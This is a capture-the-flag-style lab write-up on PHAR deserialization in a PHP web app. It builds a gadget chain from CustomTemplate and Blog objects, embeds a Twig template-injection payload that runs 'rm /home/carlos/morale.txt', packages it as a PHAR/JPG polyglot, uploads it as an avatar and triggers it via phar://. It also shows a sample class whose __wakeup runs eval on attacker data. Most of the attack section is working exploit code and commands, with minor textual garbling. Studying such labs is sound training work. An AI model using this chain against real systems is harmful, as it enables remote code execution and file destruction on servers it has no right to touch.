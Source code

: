 ## know how deserialization lab: PHAR deserialization to deploy a custom gadget chain expert

```bash
## know how deserialization __wakeup()
## know how deserialization __destruct()
## know how __wakeup() deserialization
## know how __destruct() deserialization
## know how phar:// deserialization
## know how jpg phar:// deserialization
## know how phartojpg deserialization
```

This lab does not explicitly use deserialization. However, if you combine PHAR deserialization with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain.

To solve the lab, delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

1. We need explore the website with burp suite.

Ok, at the moment only viewed csrf... but not its our goal... we saw in target the /cg-bin directory, we need explore this directory

![](assets/2023-01-07-16-19-43.png)

![](assets/2023-01-07-16-23-12.png)

We can see 2 backup archives customtemplate and blog 

![](assets/2023-01-07-16-29-25.png)

>CustomTemplate.php

![](assets/2023-01-07-16-33-27.png)

>blog.php

![](assets/2023-01-07-16-34-23.png)

we can se As long as the class of the object is supported by the website, both the __wakeup() and __destruct() magic methods can be invoked in this way, allowing you to potentially kick off a gadget chain using this technique.

[we need use phar to jpg ](https://github.com/joseluisinigo/phar-jpg-polyglot)


If you explore phartojpg, you can see that use wakeup and destruct in the code

```bash
class PHPObjectInjection{
    // fake vuln object for testing poi
    public $inject;
    public $out;
    function __construct(){
        echo "construct called\n";
    }
    function __wakeup(){
        echo "wakeup called\n";
        if(isset($this->inject)){
            eval($this->inject);
        }
    }
    function __destruct() {
        echo "destruct called\n";
        if(isset($this->out)){
            echo($this->out);
        }
    }
}
...
```

Perfect if you explore the code exploit from phartojpg called 

you can see

```bash
// pop exploit class
class PHPObjectInjection {}
$object = new PHPObjectInjection;
$object->inject = 'system("id");';
$object->out = 'Hallo World';
```

Now we can transform this code to our classes 

```php
// pop exploit class
//class PHPObjectInjection {}
// we have a customTemplate and blog in the archives. We need CustomTemplate because blog use this class 
class CustomTemplate {}
class Blog {}


//$object = new PHPObjectInjection;
// we need create object CustomTemplate for use in blog
$object = new CustomTemplate;

// now we need create a new blog its important that need user and desc. we use desc for insert payload

$blog = new Blog;

/*
$object->inject = 'system("id");';
$object->out = 'Hallo World';
## know how ssti to rce
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /home/min/user.txt")}}

With this ssti to rce, we can change the payload for remove /home/carlos/morale.txt
*/

$blog->desc='{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';

$blog->user='carlos'; /*you can use any user, its only important because you need for constructor blog*/tor blog*/

/*Dont forget template_file_path. In this caso the path its */
$object-> template_file_path = $blog; 
```

![](assets/2023-01-07-17-17-14.png)

Now only need use phartojpg for create a polyglot jpg

```bash
# Edit the phar_jpg_polyglot.php and run it to create the polyglot with phar inside
php -c php.ini phar_jpg_polyglot.php

```

![](assets/2023-01-07-17-21-46.png)

Now we have a out.jpg, we need uplaod this file in the website


![](assets/2023-01-07-17-27-16.png)

![](assets/2023-01-07-17-27-29.png)

Now we need launch avatar.php with phar:// and out.jpg for execute our payload

![](assets/2023-01-07-19-02-15.png)

![](assets/2023-01-07-19-02-30.png)
